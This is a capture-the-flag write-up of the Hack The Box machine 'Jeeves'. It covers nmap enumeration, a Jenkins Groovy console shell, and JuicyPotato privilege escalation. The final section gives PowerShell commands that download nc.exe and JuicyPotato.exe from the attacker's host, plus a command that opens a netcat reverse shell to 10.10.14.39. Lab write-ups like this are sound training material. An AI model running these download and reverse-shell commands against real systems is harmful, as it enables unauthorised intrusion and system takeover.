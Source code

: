 # Jeeves (`10.10.10.63`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `jeeves.htb` to `10.10.10.63`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports jeeves.htb
# Nmap 7.80 scan initiated Fri Sep 18 04:45:39 2020 as: nmap -A -v -p- -Pn -oA allports jeeves.htb
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.044s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (87%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (87%), FreeBSD 6.2-RELEASE (86%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.004 days (since Fri Sep 18 04:44:34 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h06m10s, deviation: 0s, median: 5h06m10s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-18T14:55:17
|_  start_date: 2020-09-18T14:50:59

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   41.27 ms 10.10.14.1
2   41.28 ms jeeves.htb (10.10.10.63)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 18 04:49:47 2020 -- 1 IP address (1 host up) scanned in 248.72 seconds
```

### Port 80

![](img/2020-10-08-05-34-47.png)

### Port 50000

![](img/2020-10-08-06-00-18.png)

![](img/2020-10-08-05-38-31.png)

## Reverse Shell

I followed this tutorial: https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

![](img/2020-10-08-05-44-25.png)

![](img/2020-10-08-05-44-49.png)

## Privilege Escalation

![](img/2020-10-08-05-58-50.png)

`SeImpersonatePrivilege` means `JuicyPotato` time.

```
$ sudo python3 -m http.server 80

> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/nc.exe', 'nc.exe')
> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/JuicyPotato.exe', 'JuicyPotato.exe')
```

![](img/2020-10-08-06-14-51.png)

![](img/2020-10-08-06-13-31.png)

```
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.39 443" -t *
```

![](img/2020-10-08-06-15-41.png)

![](img/2020-10-08-06-15-59.png)

![](img/2020-10-08-06-35-15.png)

![](img/2020-10-08-06-35-22.png)
